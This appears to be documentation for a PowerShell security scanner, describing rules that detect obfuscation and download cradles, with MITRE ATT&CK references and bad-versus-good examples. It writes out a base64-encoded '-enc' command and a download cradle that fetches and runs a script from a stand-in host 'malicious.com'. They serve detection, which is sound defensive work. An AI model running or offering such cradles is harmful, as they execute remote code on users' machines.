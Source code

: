 ### 9-16. Additional PowerShell-Specific Rules ⭐ NEW
- **Script Block Logging**: Detects disabled security logging
- **Dangerous Modules**: Identifies imports from untrusted sources
- **Unsafe Deserialization**: Finds unsafe XML/CLIXML deserialization
- **Script Injection**: Detects dynamic script generation vulnerabilities
- **Unsafe Reflection**: Finds unsafe .NET reflection usage
- **Constrained Mode**: Detects patterns breaking constrained language mode
- **Unsafe File Inclusion**: Identifies dot-sourcing of untrusted scripts
- **PowerShell Web Requests**: Detects unvalidated web requests

### 47-52. Advanced Attack Detection Rules 🛡️ NEW

#### 47. PowerShell Obfuscation Detection
**Severity**: Critical  
**MITRE ATT&CK**: T1027, T1027.010, T1059.001  
**Description**: Detects obfuscation techniques used to hide malicious code

**Patterns Detected**:
- Base64 encoded commands (`-EncodedCommand`, `FromBase64String`)
- Excessive string concatenation (5+ operations)
- Character code conversion (multiple `[char]` casts)
- Format string obfuscation (5+ placeholders)
- String reversal (`ToCharArray`, `Reverse`)

**Example**:
```powershell
# ❌ Bad - Base64 encoded malicious command
powershell.exe -enc "SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0AA=="

# ✅ Good - Clear, readable code
Invoke-WebRequest -Uri "https://example.com"
```

#### 48. Download Cradle Detection
**Severity**: Critical  
**MITRE ATT&CK**: T1105, T1059.001, T1204.002, T1027.004, T1620, T1197  
**Description**: Detects download cradles that fetch and execute remote code

**Patterns Detected**:
- `IEX (New-Object Net.WebClient).DownloadString(...)`
- Web requests piped to IEX
- BitsTransfer followed by execution
- Reflective assembly loading from web

**Example**:
```powershell
# ❌ Bad - Download and execute without disk access
IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/payload.ps1')

# ✅ Good - Download with validation
$script = Invoke-WebRequest -Uri "https://trusted.com/script.ps1"
# Review content before execution
```
